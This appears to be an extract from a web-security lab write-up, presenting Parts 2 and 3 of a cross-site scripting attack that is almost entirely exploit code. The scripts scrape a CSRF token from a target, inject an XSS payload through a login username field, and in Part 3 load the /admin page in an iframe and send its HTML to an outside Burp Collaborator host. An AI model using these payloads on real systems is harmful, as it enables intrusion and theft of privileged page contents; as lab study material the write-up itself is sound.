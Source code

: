 Part 2:

```
<script>
var ip = 'http://192.168.0.147:8080'
var collab = 'http://8nwhoydxsfjhb3zzfiluyhkk5bb5zu.burpcollaborator.net'
var xss_payload = ' "><img src=" ' + collab + ' ?xssfound=1"> ' 
  fetch(ip, {method: 'GET'}) <!-- cannot put no cors -->
    .then(response => response.text())
    .then((text) => {
        login_path = '/login?username=' + encodeURIComponent(xss_payload) + '&password=random&csrf=' + text.match(/name="csrf" value="([^"]*)"/)[1]
        location = ip + login_path 
  })
</script>
```

- Regex to obtain csrf token: `name="csrf" value="([^"]*)"`. Test regex over [here](https://regex101.com/)

- This payload will be planted in the value parameter:

  ```
  e.g. <input required type=username name="username">
                      |
                      v
                   becomes
                      |
                      v
       <input required type=username name="username" value=""><img src=" ' + collab + ' "?xssfound=1>">
  ```

Part 3:

```
<script>
var ip = 'http://192.168.0.147:8080'
var collab = 'http://8nwhoydxsfjhb3zzfiluyhkk5bb5zu.burpcollaborator.net'
var xss_payload = ' "><iframe src=/admin onload="new Image().src=\' ' + collab + '?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)"> '
  fetch(ip, {method: 'GET'}) <!-- cannot put no cors -->
    .then(response => response.text())
    .then((text) => {
        login_path = '/login?username=' + encodeURIComponent(xss_payload) + '&password=random&csrf=' + text.match(/name="csrf" value="([^"]*)"/)[1]
        location = ip + login_path 
  })
</script>
```

```
<script>
var ip = 'http://192.168.0.147:8080'
var collab = 'http://8nwhoydxsfjhb3zzfiluyhkk5bb5zu.burpcollaborator.net'
var xss_payload = ' "><iframe src=/admin onload="fetch(\' ' + collab + ' \', {method: \'POST\', mode: \'no-cors\', body: this.contentWindow.document.body.innerHTML})">'
  fetch(ip, {method: 'GET'}) <!-- cannot put no cors -->
    .then(response => response.text())
    .then((text) => {
        login_path = '/login?username=' + encodeURIComponent(xss_payload) + '&password=random&csrf=' + text.match(/name="csrf" value="([^"]*)"/)[1]
        location = ip + login_path 
  })
</script>
```
